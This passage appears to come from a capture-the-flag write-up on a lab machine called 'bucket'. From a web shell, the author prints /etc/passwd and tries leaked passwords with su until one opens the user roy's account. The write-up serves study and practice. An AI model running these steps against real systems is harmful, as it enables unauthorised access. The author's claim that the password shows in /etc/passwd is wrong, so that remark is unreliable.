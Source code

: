 This `endpoint` variable has the same port number that I had when I was redirected, before I put a trailing slash after `shell`!  Just something to note.  I feel as though we need to exploit this directory&mdash;probably in the Web Shell&mdash;to get some kind of access... I am not sure yet.

Of course, Roy's password is encrypted:
```
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
roy:x:1000:1000:,,,:/home/roy:/bin/bash
```

But let us try accessing Roy's account using one of the passwords we found earlier!

```
www-data@bucket:/var/www/html$ su roy
su roy
Password: Management@#1@#

su: Authentication failure
www-data@bucket:/var/www/html$ su roy
su roy
Password: Welcome123!

su: Authentication failure
www-data@bucket:/var/www/html$ su roy
su roy
Password: n2vM-<_K_Q:.Aa2

roy@bucket:/var/www/html$
```
